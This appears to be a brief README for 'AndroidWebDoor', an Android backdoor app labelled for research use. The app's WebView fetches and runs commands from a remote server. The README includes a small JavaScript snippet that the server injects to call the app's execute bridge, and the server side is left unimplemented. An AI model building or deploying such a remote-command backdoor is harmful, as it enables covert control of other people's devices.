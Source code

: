 # AndroidWebDoor

For research purposes only !!

Minimalistic Android Backdoor based on a single webview which fetches and executes commands from a remoter server.
From Server's side, simply add javascript code that sends the command to the client:


<script type="text/javascript">
    function execCmd(cmd) {
        Backdoor.execute(cmd);
    }
</script>


TODO: Implement the server side code
